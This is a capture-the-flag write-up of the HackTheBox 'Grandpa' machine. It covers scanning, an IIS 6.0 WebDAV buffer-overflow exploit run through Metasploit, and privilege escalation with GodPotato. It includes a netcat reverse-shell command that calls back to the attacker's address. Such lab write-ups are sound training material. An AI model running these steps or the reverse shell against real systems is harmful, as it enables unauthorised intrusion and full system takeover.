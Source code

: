 ```yaml
---
title: "Grandpa HackTheBox" 
date: 2025-07-25 06:00:00 0000+
tags: [WriteUp, Grandpa, HTB, Enumeration, BufferOverflow, CVE, GodPotato, Privilege Escalation, Windows]
categories: [WriteUps, HackTheBox]
image:
  path: /assets/images/Grandpa_HTB/preview_grandpa.png
---
```

# Grandpa HTB Writeup

Grandpa is an easy level windows machine which focuses on the a Buffer Overflow CVE, by exploiting this we get a shell on the box now enumerating further gives us that the **SeImpersonatePrivilege** is enabled on the box helping us upload godpotato.exe giving us Administrator shell.

![image.png](/assets/images/Grandpa_HTB/image.png)

## Initial Enumeration

Using rustscan to find open ports and services.

```bash
rustscan -a 10.129.95.233 --range 1-65535
```

![image.png](/assets/images/Grandpa_HTB/image%201.png)

Ran NMAP to find more verbose results.

```bash
nmap -sC -sV -vv -p 80 10.129.95.233
```

![image.png](/assets/images/Grandpa_HTB/image%202.png)

### Web Enumeration

Looking at the webpage on port 80, we have this.

![image.png](/assets/images/Grandpa_HTB/image%203.png)

It says site under construction.

Lets try with directory busting using feroxbuster.

```bash
feroxbuster -u http://10.129.95.233/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

![image.png](/assets/images/Grandpa_HTB/image%204.png)

But nothing useful found with the directory busting.

## Exploitation

I found the version of the IIS server is 6.0 using wappylyzer a web extension.

![image.png](/assets/images/Grandpa_HTB/image%205.png)

Used Searchsploit to find exploits against the IIS 6.0.

```bash
searchsploit iis 6.0
```

![image.png](/assets/images/Grandpa_HTB/image%206.png)

Lets go with the **WebDAV ScStoragePathFromUrl Remote Buffer Overflow.**

### Metasploit Exploitation

Searched in the METASPLOIT FRAMEWORK for the exploits and found these results.

![image.png](/assets/images/Grandpa_HTB/image%207.png)

Lets go with the 25th exploit.

![image.png](/assets/images/Grandpa_HTB/image%208.png)

Lets configure this exploit for our use.

![image.png](/assets/images/Grandpa_HTB/image%209.png)

After configuring the exploit we gave **exploit** to run the exploit.

![image.png](/assets/images/Grandpa_HTB/image%2010.png)

And we have shell.

I type shell to get a proper windows shell exiting our meterpreter shell.

![image.png](/assets/images/Grandpa_HTB/image%2011.png)

Now lets just focus on privilege escalation.

There is no user on the box only a network service through which we have a shell.

## Privilege Escalation

Now lets use the exploit suggester module of windows to find the suitable exploit for us.

![image.png](/assets/images/Grandpa_HTB/image%2012.png)

Going to use the 4th exploit from the above list.

![image.png](/assets/images/Grandpa_HTB/image%2013.png)

Lets configure the exploit.

here our session opened is 1.

So lets just background our session and feed the exploit suggester our session 1.

![image.png](/assets/images/Grandpa_HTB/image%2014.png)

Configuring it.

But the exploit failed to get me a privileged shell.

Enumerated the box more and found that the **SeImpersonatePrivilege** is enabled on the box.

![image.png](/assets/images/Grandpa_HTB/image%2015.png)

So lets just upload godpotato.exe 

So I started a SMB Share on my local machine using impacket’s smbshare.py.

```bash
impacket-smbshare share .
```

![image.png](/assets/images/Grandpa_HTB/image%2016.png)

![image.png](/assets/images/Grandpa_HTB/image%2017.png)

Copied the file to the C:\windows\temp directory.

Also copied the nc64.exe binary to get the privileged NT AUTHORITY/SYSTEM shell on our box.

![image.png](/assets/images/Grandpa_HTB/image%2018.png)

Started a listener on our local machine on port 9099.

```bash
nc -lnvp 9099
```

Running the exploit

```powershell
.\gp.exe -d "c:\windows\temp\nc.exe -e cmd.exe 10.10.14.13 9099"
```

![image.png](/assets/images/Grandpa_HTB/image%2019.png)

And we have a shell, now lets grab both our administrator and user flags.

![image.png](/assets/images/Grandpa_HTB/image%2020.png)

Submitting our both the flags.

Rooted!

![image.png](/assets/images/Grandpa_HTB/image%2021.png)

Thanks for reading 😊
